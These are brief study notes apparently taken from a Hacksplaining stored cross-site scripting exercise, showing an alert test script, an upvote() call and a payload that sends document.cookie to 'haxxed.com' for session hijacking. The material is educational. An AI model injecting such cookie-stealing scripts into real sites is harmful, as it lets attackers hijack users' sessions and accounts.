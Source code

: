 [source](https://www.hacksplaining.com/exercises/xss-stored#/start)

<script>
alert('fdfdfd')
</script>


A real attack might use cross-site scripting to steal another
user's cookie which can permit session hijacking.
<script>
window.location='haxxed.com?cookie='+document.cookie
</script>

<script>
upvote();
</script>